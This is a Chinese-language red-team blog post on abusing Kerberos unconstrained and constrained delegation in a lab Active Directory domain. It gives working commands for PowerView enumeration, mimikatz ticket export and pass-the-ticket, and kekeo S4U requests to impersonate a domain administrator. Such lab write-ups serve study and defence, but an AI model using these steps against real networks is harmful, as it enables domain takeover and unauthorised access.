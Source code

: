 ```yaml
---
layout:     post
title:    域渗透-Kerberos委派学习
subtitle:   Kerberos委派学习
date:       2020-02-19
author:     hmoytx
header-img: img/bg_02.jpg
catalog: true
tags:
    - 域渗透
    - 红队
    - 内网渗透
---
```

# 域渗透-Kerberos委派学习

## 委派
举个例子，在域中如果出现A主机使用Kerberos身份验证访问域中的服务http，而http再利用A的身份去请求域中的服务sql，这个借用身份验证过程就可以理解为委派。  
而委派主要分为非约束委派和约束委派两个方式。  
- 非约束委派  
非约束委派在Kerberos中实现时，User会将从KDC处得到的TGT（入场券）发送给访问的服务1（可以是任意服务），服务1拿到TGT之后可以通过TGT申请TS（票据）访问域内任意其他服务，所以被称为非约束委派。  
- 约束委派  
由于非约束委派的不安全性，微软在windows2003中发布了约束委派的功能。约束委派在Kerberos中User不会直接发送TGT给服务，而是对发送给service1的认证信息做了限制，不允许service1代表User使用这个TGT去访问其他服务。这里包括一组名为S4U2Self（Service for User to Self）和S4U2Proxy（Service forUser to Proxy）的Kerberos协议扩展。  

## 非约束委派
### 非约束委派设置
我随便设置了一个。
```
setspn -A http/owa.god.org:80 liukaifeng01
```  
![200219_1](/img/200219_setspn.png)  
域控上把账号属性中的委派设置为完全信任。  
![200219_2](/img/200219_trust.png)   
### 发现非约束委派主机或账户  
用到一个框架PowerSploit中的PowerView。建议两个分支都下。  
这里先用到master分支。切到Recon目录，打开powershell。    
先查询用户。  
```
Imort-Module ./PowerView.ps1  
Get-NetUser -Unconstrained -Domain god.org
```  
![200219_3](/img/200219_netuser.png)  
查询主机。  
```
Get-NetComputer -TrustedToAuth -Domain god.org
```
![200219_4](/img/200219_netcomputer.jpg)  
### 非约束委派利用
先在域控上登陆域管，访问下域成员主机的smb服务（生成下TGT）。  
![200219_12](/img/200219_dirstu.png)  
然后在域成员上用mimikatz导出所有的内存中的票据。（需要管理员权限的）   
```
kerberos::tickets /export
```
![200219_5](/img/200219_kirbi.png)   
此时去域成员去访问域控的smb是拒绝访问的。  
![200219_6](/img/200219_dirfail.png)  
然后导入票据。  
```
kerberos::ptt xxxxxxxx.kirbi
```
这时候再试试访问可以发现成功了。  
![200219_7](/img/200219_dirsecuss.png)    


## 约束委派
### 约束委派设置
如图在委派设置中设置为仅信任指定服务。  
![200219_7](/img/200219_untrust.png)  
### 发现约束委派主机或账户 
用到的是PowerSploit的dev分支。  
先查询用户。  
```
Imort-Module ./PowerView.ps1  
Get-DomainUser -TrustedToAuth -Domain god.org
```  
![200219_8](/img/200219_domainuser.png)  
查询主机。  
```
Get-DomainComputer -TrustedToAuth -Domain god.org
```
![200219_9](/img/200219_domaincomputer.png)   
### 约束委派利用
首先用kekeo.exe去申请TGT。  
```
tgt::ask /user:liukaifeng01 /domain:god.org /password:123qwe!@# /ticket:liukaifeng01.kirbi
```
![200219_10](/img/200219_tgtask.jpg)   
然后去利用这个TGT申请TGS票据，试了好几次失败了。  
找了下原因是因为策略问题，修改了下本地安全策略的kerberos加密方式为RC4加密，然后更新策略。   
再申请一次，成功了。   
```
tgs::s4u /tgt:TGT_liukaifeng01@GOD.ORG_krbtgt~gof.org@GOD.ORG.kirbi /user:administrator@god.org /service:cifs/owa.god.org
```
![200219_11](/img/200219_tgss4u.jpg)  
然后用mimikatz导入票据再去访问域控，可以发现已经可以了。  
![200219_13](/img/200219_dirsecuss2.jpg)  


## 参考
[https://xz.aliyun.com/t/7217#toc-0](https://xz.aliyun.com/t/7217#toc-0)  

